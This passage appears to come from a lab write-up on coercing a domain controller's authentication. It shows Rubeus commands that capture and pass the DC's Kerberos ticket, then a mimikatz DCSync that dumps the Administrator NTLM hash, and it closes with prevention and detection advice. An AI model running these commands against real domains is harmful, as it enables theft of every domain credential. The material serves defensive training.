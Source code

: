 ### 6. Capture DC TGT on WS001

Rubeus on WS001 shows the DC1 TGT:

* User: `DC1$@EAGLE.LOCAL`
* Ticket Flags: `forwardable, forwarded, renewable, name_canonicalize`
* Base64 encoded ticket ready for use

> This TGT can authenticate within the domain as the Domain Controller.

***

### 7. Import TGT with Rubeus

```powershell
.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...
```

* Verify with `klist`
* Now we can perform **DCSync** and other privileged attacks

***

### 8. DCSync Attack

```powershell
.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"
```

**Output includes:**

* SAM Username: `Administrator`
* NTLM hash: `fcdc65703dd2b0bd789977f1f3eeaecf`
* Kerberos keys, supplemental credentials

> With the DC TGT, all domain credentials can be accessed.

***

### 9. Prevention

1. **RPC Firewall (e.g., Zero Networks)**
   * Block dangerous RPC functions
   * Audit mode for monitoring
   * Update config for newly discovered vulnerable RPC functions
2. **Block outbound traffic from DC/core servers**
   * Block ports **139 and 445** except for required AD communication
   * Prevents attacker from receiving coerced TGTs

> This also protects against newly discovered RPC functions and coercing methods.

***

### 10. Detection

* Monitor firewall logs for unexpected outbound connections from DC to attacker machine
* Signs of suspicious activity: blocked outbound traffic to ports 139/445
* RPC Firewall can provide immediate detection
